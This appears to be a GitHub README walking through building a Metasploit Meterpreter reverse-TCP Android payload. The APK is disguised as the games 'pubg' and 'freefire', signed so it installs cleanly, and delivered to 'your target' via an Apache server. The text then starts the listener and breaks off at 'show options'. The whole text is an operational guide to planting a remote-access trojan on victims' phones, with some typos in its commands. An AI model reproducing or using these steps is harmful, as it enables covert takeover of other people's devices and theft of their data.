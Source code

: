 # Metasploit-Android-Payload
All commands and Tools 
/**Create a payloads for android help to Metasploit Framework**/

For Linux ----------->>>>>>>>>>>>>>>>>>>>>>

sudo mafvenom -p android/meterpreter/reverse_tcp LHOST=your ip LPORT=4444 R> apk name(pubg.apk)


comment -->>//This is for only for local Area Network
 //lets us for make signed application for properly installed in android

sudo  keytool -genkey -v -keystore key.keystore -alias any name(professor) -keyalg RSA -keysize 2048 -calidity 10000
//then ask to you a password enter and some question you put the answer somthing you want

# sudo jarsigner -verbose -sigalg SHA1withRSA -digestalg SHA1 -keystore key.keystore pubg.apk professor 


//then verify the application

 sudo jarsigner -verify -verbose -certs pubg.apk

//then optimize the apk with help zipalign

//enter command for zipalign tool
 sudo apt-get instal zipalign 

sudo zipalign -v 4 pubg.apk freefire.apk(//this is a new application name this applicatio you send your target) 

//you send and install this freefire apk on target android device

// you can also send the application from apache server

//copy this apk in /var/www/html/share/   and start apache server for start type the command : sudo service apache2 start

//lets start our meterpreter lisner before installng

msfconsole 
use exploit/multi/handler 
show options 

                                                                                                                                                       1,1           Top
